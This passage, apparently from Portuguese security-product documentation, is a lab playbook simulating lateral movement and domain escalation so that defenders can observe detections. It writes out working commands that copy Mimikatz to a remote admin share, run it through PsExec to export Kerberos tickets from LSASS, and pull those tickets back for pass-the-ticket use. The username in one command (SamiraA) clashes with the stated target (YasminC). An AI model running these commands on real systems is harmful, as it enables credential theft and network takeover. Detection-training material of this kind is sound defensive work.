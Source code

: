 ![Exibir a detecção na linha do tempo de Atividade Lógica](media/playbook-lateral-opthlogicalactivity.png)

No Centro de Operações de Segurança, nosso analista de segurança é avisado sobre a credencial comprometida e pode investigar rapidamente quais recursos ela acessou.

## <a name="domain-escalation"></a>Escalonamento de domínio

A partir de nosso ataque simulado, não temos apenas acesso ao AdminPC, nós validamos os privilégios de Administrador no AdminPC. Agora, podemos nos movimentar lateralmente até AdminPC e coletar mais credenciais.

Aqui, iremos:

- Preparar Mimikatz no AdminPC
- Coletar Tíquetes no AdminPC
- Pass-the-Ticket para nos tornamos YasminC

### <a name="pass-the-ticket"></a>Pass-the-Ticket

No prompt de comando em execução no contexto de *EduardoHD* no **VictimPC** , vá até onde estão nossas ferramentas comuns de ataque. Em seguida, execute *xcopy* para mover essas ferramentas para o AdminPC:

```dos
xcopy mimikatz.exe \\adminpc\c$\temp
```

Pressione `d` quando solicitado, informando que a pasta "temp" é um diretório no AdminPC.

![Copiar arquivos para o AdminPC](media/playbook-escalation-xcopy1.png)

### <a name="mimikatz-sekurlsatickets"></a>Mimikatz sekurlsa::tickets

Com Mimikatz preparado em AdminPC, usaremos PsExec para executá-lo remotamente.

1. Vá até onde o PsExec está localizado e execute o seguinte comando:

    ```dos
    PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
    ```

    Esse comando executará e exportará os tíquetes encontrado no processo LSASS.exe e coloque-os no diretório atual, em AdminPC.

1. Precisamos copiar os tíquetes de volta ao VictimPC de AdminPC. Já que estamos interessados apenas nos tíquetes de YasminC para este exemplo, execute o seguinte comando:

    ```dos
    xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
    ```

    ![Exportar credenciais coletadas de AdminPC de volta para VictimPC](media/playbook-escalation-export_tickets2.png)

1. Vamos limpar nossos rastros no AdminPC excluindo nossos arquivos.
